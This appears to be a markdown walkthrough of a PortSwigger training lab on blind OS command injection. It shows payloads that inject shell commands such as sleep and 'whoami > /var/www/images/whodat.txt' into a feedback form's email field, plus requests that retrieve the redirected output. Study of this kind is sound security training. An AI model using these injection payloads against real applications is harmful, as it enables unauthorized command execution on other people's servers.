 # Lab 3 - Blind OS command injection with output redirection

**YouTube video & lab links below:**

[Command Injection - Lab #3 Blind OS command injection with output redirection | Long Version](https://youtu.be/Gf2_UWsYrpM?list=PLuyTk2_mYISK9ywsFZZOT1LuO3Eb7Wq5q)

[Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

```
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. 
The output from the command is not returned in the response. 
However, you can use output redirection to capture the output from the command. 
There is a writable folder at: /var/www/images/

The application serves the images for the product catalog from this location. 
You can redirect the output from the injected command to a file in this folder, 
and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.
```

### Target Goal - Exploit the blind command injection and redirect the output from the whoami command to the `/var/www/images`


#### Analysis:

**1. Confirm blind command injection: Email Field**

**2. Check where images are store**

**3. Redirect output to file**

**4. Check if file was created**

<br>

## Solution:
### The vulnerable parameter is the email field field in the feedback form
at this endpoint: `POST /feedback/submit`

```HTTP
POST /feedback/submit HTTP/2
Host: 0a2f007903dd2e578305105c006200aa.web-security-academy.net
Origin: https://0a2f007903dd2e578305105c006200aa.web-security-academy.net

Referer: https://0a2f007903dd2e578305105c006200aa.web-security-
```
email=foo@email.com` & sleep 10 #`&subject


`&name=Hackerman&`

#### use the same command structure as in the previous lesson
and preceed it with a random letter so that it wont pickup the command, makes it easier
to execute, etc....

```shell
||ping+-c+10+127.0.0.1||
```

But here in this lab it's gonna be:
```shell
&email=foo||whoami > /var/www/images/whodat.txt||&
```
<br>

### The cmd injection in the email param
be sure to URL encode it

email=foo%40email.com+`%26+whoami+>+/var/www/images/whodat.txt+%23`&subject


Then URL encode it, I used the Decoder tab:


Then the end point containing the .txt file you made is located at:
```HTTP
GET /image?filename=21.jpg
```

It can be any jpg number, that's irrelevant, cause you're gonna change the .jpg file name
to the name of the file you created that contains the output of `whoami` , and that will look like
```HTTP
GET /image?filename=whodat.txt HTTP/2
Host: yourlabid.web-security-academy.net
```

and the response should be
```HTTP
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=CsuBhNTngZrmPSJAreEo9oFnWjh80WCd; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 13

peter-WKMu36
```

**And BOOM !**
you are `peter-WKMu36`

--Done--
